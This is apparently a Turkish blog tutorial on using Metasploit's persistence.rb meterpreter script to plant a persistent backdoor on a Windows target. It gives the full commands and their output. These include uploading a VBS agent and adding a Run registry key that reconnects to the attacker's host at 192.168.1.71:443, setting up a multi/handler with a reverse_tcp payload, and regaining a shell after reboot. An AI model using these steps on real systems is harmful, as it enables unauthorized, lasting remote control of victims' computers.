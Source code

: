```yaml
---
draft: false

title:  'MSF Meterpreter Kalıcı Backdoor'
date: '2017-06-15T13:57:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  "Hedef sistemde oturum açtıktan sonra kalıcılık sağlamak için Metasploit Framework içinde kullanabileceğiniz bir diğer yöntem de\_persistence.rb\_script kodunu kullanmaktır." 
 
url:  /tr/msf-meterpreter-kalici-backdoor/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



## Persistence.rb



Hedef sistemde oturum açtıktan sonra kalıcılık sağlamak için Metasploit Framework içinde kullanabileceğiniz bir diğer yöntem de `persistence.rb` script kodunu kullanmaktır.



Bu yöntem sayesinde, hedef bilgisayar güncellense bile tekrar bağlanma imkanınız bulunmaktadır. Ayrıca, hedef sistemin tekrar başlatılması da bağlantı yapmayı etkilemeyecektir.



Bir önceki konuda, `metsvc` için yaptığımız uyarıyı burada da tekrarlayalım. `persistence.rb` arka kapısı, bağlantı için herhangi bir oturum bilgisi kullanmaz. Bu açıklığı keşfeden herkes bağlantı sağlayabilir.



Hedef sistemde meterpreter oturum açtıktan sonra `persistence.rb` script kodunu kullanmadan önce yardım bilgilerini görüntüleyelim ve bize hangi imkanları sağladığını görelim.


```bash
meterpreter **>** run persistence -h

**[!]** Meterpreter scripts are deprecated. Try post/windows/manage/persistence_exe.
**[!]** Example: run post/windows/manage/persistence_exe OPTION**=**value **[**...]
Meterpreter Script **for **creating a persistent backdoor on a target host.

OPTIONS:

    -A   Automatically start a matching exploit/multi/handler to connect to the agent
    -L   Location **in **target host to write payload to, **if **none %TEMP% will be used.
    -P   Payload to use, default is windows/meterpreter/reverse_tcp.
    -S   Automatically start the agent on boot as a service **(**with SYSTEM privileges**)**
    -T   Alternate executable template to use
    -U   Automatically start the agent when the User logs on
    -X   Automatically start the agent when the system boots
    -h   This help menu
    -i   The interval **in **seconds between each connection attempt
    -p   The port on which the system running Metasploit is listening
    -r   The IP of the system running Metasploit listening **for **the connect back
```



Aşağıdaki `persistence -U -i 5 -p 443 -r 192.168.1.71` komutu hangi işlemleri yapıyor?



`-U`, bir kullanıcı oturum açtığında bizim bilgisayarımıza otomatik bağlantı yapılmasını sağlar.



`-i 5` Karşe taraftaki `persistence.rb` script kodu her 5 saniyede bir bize bağlanmaya çalışır.



`-p 443` bizim dinleme yapan bilgisayarımızın dinleme yaptığı port numarasıdır.



`-r 192.168.1.71` bizim dinleme yapan bilgisayarımızın IP numarasıdır.


```bash
meterpreter **>** run persistence -U -i 5 -p 443 -r 192.168.1.71
**[*********]** Creating a persistent agent: LHOST**=**192.168.1.71 LPORT**=**443 **(**interval**=**5 onboot**=**true**)**
**[*********]** Persistent agent script is 613976 bytes long
**[*********]** Uploaded the persistent agent to C:\WINDOWS\TEMP\yyPSPPEn.vbs
**[*********]** Agent executed with PID 492
**[*********]** Installing into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\YeYHdlEDygViABr
**[*********]** Installed into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\YeYHdlEDygViABr
**[*********]** For cleanup use command: run multi_console_command -rc /root/.msf4/logs/persistence/XEN-XP-SP2-BARE_20100821.2602/clean_up__20100821.2602.rc
meterpreter **>**
```



Verdiğimiz komut sonucunda başlatılan script, çıktılarda da görüleceği gibi işimiz tamamlandığında log temizleme işleminin nasıl yapılabileceğini de gösteriyor.


```bash
multi_console_command -rc /root/.msf4/logs/persistence/XEN-XP-SP2-BARE_20100821.2602/clean_up__20100821.2602.rc
```



Scriptin çalışıp çalışmadığını ve otomatik bağlantı yapıp yapmadığını, hedef bilgisayarı tekrar başlatarak anlayabiliriz. Hedef bilgisayarı yeniden başlatalım.


```bash
meterpreter **>** reboot
Rebooting...
meterpreter **>** exit

**[*********]** Meterpreter session 3 closed.  Reason: User exit
```



Dinleyici `exploit/multi/handler` modülünü tekrar başlatalım.


```bash
msf exploit**(**ms08_067_netapi**)** **>** use exploit/multi/handler
msf exploit**(**handler**)** **>** set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD **=>** windows/meterpreter/reverse_tcp
msf exploit**(**handler**)** **>** set LHOST 192.168.1.71
LHOST **=>** 192.168.1.71
msf exploit**(**handler**)** **>** set LPORT 443
LPORT **=>** 443
msf exploit**(**handler**)** **>** exploit

**[*********]** Started reverse handler on 192.168.1.71:443
**[*********]** Starting the payload handler...
```



Hedef bilgisayar tekrar başladığında, oturum açılır açılmaz yerel bilgisayara bağlantı, aşağıda görüldüğü gibi tekrar sağlanacaktır.


```bash
**[*********]** Sending stage **(**748544 bytes**)** to 192.168.1.161
**[*********]** Meterpreter session 5 opened **(**192.168.1.71:443 -> 192.168.1.161:1045**)** at 2010-08-21 12:31:42 -0600

meterpreter **>** sysinfo
Computer: XEN-XP-SP2-BARE
OS      : Windows XP **(**Build 2600, Service Pack 2**)**.
Arch    : x86
Language: en_US
meterpreter **>**```
